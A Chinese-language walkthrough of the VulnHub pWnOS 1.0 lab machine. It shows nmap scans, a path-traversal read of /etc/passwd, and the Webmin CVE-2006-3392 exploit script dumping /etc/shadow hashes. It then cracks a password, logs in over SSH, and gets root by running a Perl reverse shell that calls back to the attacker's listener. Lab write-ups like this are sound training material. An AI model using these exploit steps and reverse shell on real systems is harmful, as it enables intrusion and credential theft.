> **靶机地址：**[pWnOS: 1.0 ~ VulnHub](https://www.vulnhub.com/entry/pwnos-10,33/)
>
> **Download (Mirror)**: https://download.vulnhub.com/pwnos/pWnOS_v1.0.zip

# 网络配置

用vmware打开，跳出提示框请选择“**我已移动虚拟机**”，然后设置为NAT模式，否则无法扫描到靶机！

# nmap扫描

**端口扫描**

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 10.10.10.16
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-24 21:10 EST
Nmap scan report for localhost (10.10.10.16)
Host is up (0.0015s latency).
Not shown: 65530 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 2.49 seconds
```

**详细信息扫描**

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -O -p22,80,139,445,10000 10.10.10.16
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-24 21:12 EST
Nmap scan report for localhost (10.10.10.16)
Host is up (0.00028s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.22
OS details: Linux 2.6.22 (embedded, ARM), Linux 2.6.22 - 2.6.23
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.82 seconds
```

`10000`端口存在`webmin`服务

**指定漏洞脚本扫描**

```bash
┌──(kali㉿kali)-[~]
└─$ nmap --script=vuln -p22,80,139,445,10000 10.10.10.16
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-24 21:15 EST
Nmap scan report for bogon (10.10.10.16)
Host is up (0.00028s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-enum:
|   /icons/: Potentially interesting directory w/ listing on 'apache/2.2.4 (ubuntu) php/5.2.3-1ubuntu6'
|   /index/: Potentially interesting folder
|_  /php/: Potentially interesting directory w/ listing on 'apache/2.2.4 (ubuntu) php/5.2.3-1ubuntu6'
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-trace: TRACE is enabled
|_http-csrf: Couldn't find any CSRF vulnerabilities.
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
10000/tcp open  snet-sensor-mgmt
| http-vuln-cve2006-3392:
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|
|     Disclosure date: 2006-06-29
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|       http://www.exploit-db.com/exploits/1997/
|_      http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
```

发现了一个`webmin`文件泄露漏洞

# 解法一

### Web渗透

先去访问`80`端口，提示说是一个帮助页面，点击`next`



可以输入你的信息以获得一些提示，输入`hack`






`http://10.10.10.16/index1.php?help=true&connect=true'`页面发生了变化




#### 文件包含

将url中的connect参数赋值为`../../../../etc/passwd`，成功读取到了passwd

`http://10.10.10.16/index1.php?help=true&connect=../../../../etc/passwd`



使用`curl`命令方便查看

```bash
 curl 'http://10.10.10.16/index1.php?help=true&connect=../../../../etc/passwd'
```



找到几个有`bash`环境的

在nmap漏洞脚本扫描时候枚举出了几个目录，挨个访问下

```
| http-enum:
|   /icons/: Potentially interesting directory w/ listing on 'apache/2.2.4 (ubuntu) php/5.2.3-1ubuntu6'
|   /index/: Potentially interesting folder
|_  /php/: Potentially interesting directory w/ listing on 'apache/2.2.4 (ubuntu) php/5.2.3-1ubuntu6'
```

`/index`是默认的`80`端口，`/php`发现了`phpmyadmin`





需要登录，现在还不知道用户名和密码，但是暴露了`phpmyadmin`的版本`2.6.3-pl1`



#### webmin文件泄露

nmap漏洞扫描结果中有`webmin`文件泄露漏洞，漏洞状态是可利用的

```bash
10000/tcp open  snet-sensor-mgmt
| http-vuln-cve2006-3392:
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|
|     Disclosure date: 2006-06-29
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|       http://www.exploit-db.com/exploits/1997/
|_      http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
```

去漏洞库搜一下



这俩应该是没有区别的，只不过用的语言不一样

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit webmin -m 2017.pl
[!] Could not find EDB-ID #


  Exploit: Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure
      URL: https://www.exploit-db.com/exploits/2017
     Path: /usr/share/exploitdb/exploits/multiple/remote/2017.pl
    Codes: CVE-2006-3392
 Verified: True
File Type: Perl script text executable
Copied to: /home/kali/2017.pl
```

查看用法

```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl
Usage: 2017.pl <url> <port> <filename> <target>
TARGETS are
 0  - > HTTP
 1  - > HTTPS
Define full path with file name
Example: ./webmin.pl blah.com 10000 /etc/passwd
```

漏洞脚本利用

```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl 10.10.10.16 10000 /etc/passwd 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /etc/passwd

 FILE CONTENT STARTED
 -----------------------------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash

 -------------------------------------
```

```bash
┌──(kali㉿kali)-[~]
└─$ perl 2017.pl 10.10.10.16 10000 /etc/shadow 0
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /etc/shadow

 FILE CONTENT STARTED
 -----------------------------------
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::

 -------------------------------------
```

`/etc/shadow`这个文件想要获取到，一般是需要一定权限的

**john密码破解**

在vulhub靶机中涉及到密码破解的地方，通常都使用rockyou字典，这是靶机制作者为了给我们节省时间的操作，不过实际渗透测试中密码破解的过程可能非常长，也和字典的选取强相关。



> h4ckm3           (vmware)


```bash
┌──(kali㉿kali)-[~/tools/tmp]
└─$ ssh vmware@10.10.10.16
Unable to negotiate with 10.10.10.16 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss
```

在**[LampSecurity:CTF4](https://github.com/hxysaury/Target-Test/blob/main/Vulnhub/LAMPSECURITY%20CTF4-sql%E6%B3%A8%E5%85%A5-sqlmap.md)**这个靶机中也遇到了同样的问题

使用`-o`参数，查找额外的参数`HostKeyAlgorithms`：主机密钥算法

```
┌──(kali㉿kali)-[~/tools/tmp]
└─$ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss vmware@10.10.10.16
The authenticity of host '10.10.10.16 (10.10.10.16)' can't be established.
RSA key fingerprint is SHA256:+C7UA7dQ1B/8zVWHRBD7KeNNfjuSBrtQBMZGd6qoR9w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.16' (RSA) to the list of known hosts.
vmware@10.10.10.16's password:
Linux ubuntuvm 2.6.22-14-server #1 SMP Sun Oct 14 23:34:23 GMT 2007 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Fri Jun 20 14:35:37 2008
vmware@ubuntuvm:~$
```

### 权限提升

先看一下计划任务

```bash
vmware@ubuntuvm:/var$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

 计划任务没什么可以利用的

在看看其他位置

这里发现`webmin`是`root`身份运行，这里就 证实了在上面利用webmin文件泄露的时候能获取到`/etc/shadow`文件内容的原因




```bash
┌──(kali㉿kali)-[~]
└─$ cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi

┌──(kali㉿kali)-[~]
└─$ sudo vim shell.cgi
```




kali上架设服务器

```bash
┌──(kali㉿kali)-[~]
└─$ sudo php -S 0:80
sudo: unable to resolve host kali: Name or service not known
[Sat Feb 24 22:44:17 2024] PHP 8.2.5 Development Server (http://0:80) started
```

靶机中下载



赋予执行款权限

```bash
vmware@ubuntuvm:~$ ls
shell.cgi
vmware@ubuntuvm:~$ chmod +x shell.cgi
vmware@ubuntuvm:~$ ls -la
total 32
drwxr-xr-x 3 vmware vmware 4096 2024-02-24 21:46 .
drwxr-xr-x 6 root   root   4096 2008-06-11 09:26 ..
-rw------- 1 vmware vmware   65 2008-06-20 14:39 .bash_history
-rw-r--r-- 1 vmware vmware  220 2008-06-10 07:10 .bash_logout
-rw-r--r-- 1 vmware vmware 2298 2008-06-10 07:10 .bashrc
-rw-r--r-- 1 vmware vmware  566 2008-06-10 07:10 .profile
-rwxr-xr-x 1 vmware vmware 3714 2024-02-24 21:46 shell.cgi
drwx------ 2 vmware vmware 4096 2008-06-12 11:19 .ssh
-rw-r--r-- 1 vmware vmware    0 2008-06-10 12:43 .sudo_as_admin_successful
```

kali监听`1234`端口

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 1234
sudo: unable to resolve host kali: Name or service not known
listening on [any] 1234 ...
```

kali执行上面webmin文件泄露的那个脚本，去执行`shell.cgi`

```bash
┌──(kali㉿kali)-[~]                                                                           │
└─$ perl 2017.pl 10.10.10.16 10000 /home/vmware/shell.cgi 0                                   │
WEBMIN EXPLOIT !!!!! coded by UmZ!                                                            │
Comments and Suggestions are welcome at umz32.dll [at] gmail.com                              │
Vulnerability disclose at securitydot.net                                                     │
I am just coding it in perl 'cuz I hate PHP!                                                  │
Attacking 10.10.10.16 on port 10000!                                                          │
FILENAME:  /home/vmware/shell.cgi                                                             │
                                                                                              │
 FILE CONTENT STARTED                                                                         │
 -----------------------------------                                                          │
Browser IP address appears to be: 10.10.10.11<p>                                              │
                                                                                              │
 -------------------------------------              
```

反弹成功，拿到`root`

